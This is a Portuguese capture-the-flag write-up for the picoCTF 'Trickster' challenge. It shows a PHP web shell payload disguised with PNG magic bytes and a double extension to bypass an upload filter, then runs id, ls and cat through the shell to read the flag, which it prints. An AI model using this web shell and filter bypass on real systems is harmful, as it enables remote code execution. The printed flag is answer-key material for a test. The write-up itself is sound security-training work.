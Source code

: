 # Trickster  
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Upload Arbitrário de Arquivos, Execução Remota de Código (RCE) e Exposição de Diretórios e Arquivos Sensíveis

## Sobre o Desafio

Encontrei um aplicativo da web que pode ajudar a processar imagens: apenas imagens PNG!<br>
Detalhes adicionais estarão disponíveis após o lançamento de sua instância de desafio.

- [Trickster](https://play.picoctf.org/practice/challenge/445) 

## Solução  

Abrimos a URL do desafio e identificamos uma funcionalidade de upload que aceita apenas arquivos .png.

Criamos um arquivo yo.php com uma simples payload PHP (<?=\$_GET[0]`?>`).

Tentamos enviá-lo, mas o servidor rejeitou, indicando que o nome do arquivo precisava conter .png.

Renomeamos o arquivo para yo.png.php e tentamos o upload novamente.
O servidor aceitou o nome, mas ainda rejeitou o arquivo dizendo que não era um PNG válido.

Pegamos os bytes mágicos do PNG (89 50 4E 47 0D 0A 1A 0A).
Criamos um arquivo base.png, abrimos em um editor hexadecimal e inserimos os bytes mágicos no início.
No final do arquivo, adicionamos a payload PHP (<?=\$_GET[0]`?>`).
Renomeamos para yo.png.php e fizemos o upload novamente.

Testamos diretórios comuns (/uploads/, /files/, /images/) e encontramos nosso arquivo em:

http://atlas.picoctf.net:62573/uploads/yo.png.php

Testamos a execução de código com ?0=id, confirmando o acesso

http://atlas.picoctf.net:62573/uploads/yo.png.php?0=id

Listamos arquivos no diretório

http://atlas.picoctf.net:62573/uploads/yo.png.php?0=ls ..

Encontramos GQ4DOOBVMMYGK.txt e lemos o conteúdo

http://atlas.picoctf.net:62573/uploads/yo.png.php?0=cat%20../GQ4DOOBVMMYGK.txt



![image](https://github.com/user-attachments/assets/5a513762-7cf8-4af4-8382-ff46da02f5dc)

![image](https://github.com/user-attachments/assets/58157f2b-faf5-4fa4-8736-2362f4d855fd)

![image](https://github.com/user-attachments/assets/3b878932-f653-47d5-bef0-978a6afaa22f)

![image](https://github.com/user-attachments/assets/192391de-0113-44a6-ab5e-cec08305a643)

![image](https://github.com/user-attachments/assets/18837203-98d9-44d0-aac9-3c0bf62e7a3a)

![image](https://github.com/user-attachments/assets/23009445-c52c-47c7-a126-8084b6efd24d)

![image](https://github.com/user-attachments/assets/5fc90973-f63b-44b4-93d2-7496179895dc)

![image](https://github.com/user-attachments/assets/c443c4ff-015d-44cc-b707-d0aad97d8398)

![image](https://github.com/user-attachments/assets/f448d0dc-aa4d-44c9-a156-20f23310f1b9)

![image](https://github.com/user-attachments/assets/77bd82c3-e2cd-4150-a259-d26c06d14ac9)




> Assim, obtemos a flag `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}`  
